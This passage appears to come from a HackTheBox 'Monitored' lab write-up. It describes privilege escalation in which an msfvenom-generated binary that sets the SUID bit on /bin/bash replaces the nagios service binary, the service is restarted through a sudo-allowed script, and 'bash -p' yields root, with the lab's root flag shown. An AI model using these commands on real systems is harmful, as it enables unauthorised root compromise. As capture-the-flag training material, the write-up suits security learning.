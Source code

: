 ![](/assets/images/HTB-Writeup-Monitored/Pasted image 20240507131525.png)

- We will use `msfvenom` to generate a binary file named `nagios` that executes `chmod u+s /bin/bash`.

```bash
❯ msfvenom -p linux/x64/exec -f elf CMD='chmod u+s /bin/bash' -o nagios
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 56 bytes
Final size of elf file: 176 bytes
Saved as: nagios
```

-  Then, we will replace the binary file `/usr/local/nagios/bin/nagios` with the one generated using `msfvenom`.

![](/assets/images/HTB-Writeup-Monitored/Pasted image 20240507131648.png)

- We will grant execution permissions.

![](/assets/images/HTB-Writeup-Monitored/Pasted image 20240507141749.png)

- Then, we will restart the `nagios` service by executing the script `/usr/local/nagiosxi/scripts/manage_services.sh` as root. Nice! I'm able to convert to the `root` user now, and then I'll read `/root/root.txt`

```bash
nagios@monitored:~$ sudo /usr/local/nagiosxi/scripts/manage_services.sh restart nagios
Job for nagios.service failed because the control process exited with error code.
See "systemctl status nagios.service" and "journalctl -xe" for details.

nagios@monitored:~$ ls -la /bin/bash
ls -la /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash

nagios@monitored:~$ bash -p
bash-5.1# whoami
root

bash-5.1# cat /root/root.txt
0fae616536de29cf3325855864dfd105
```
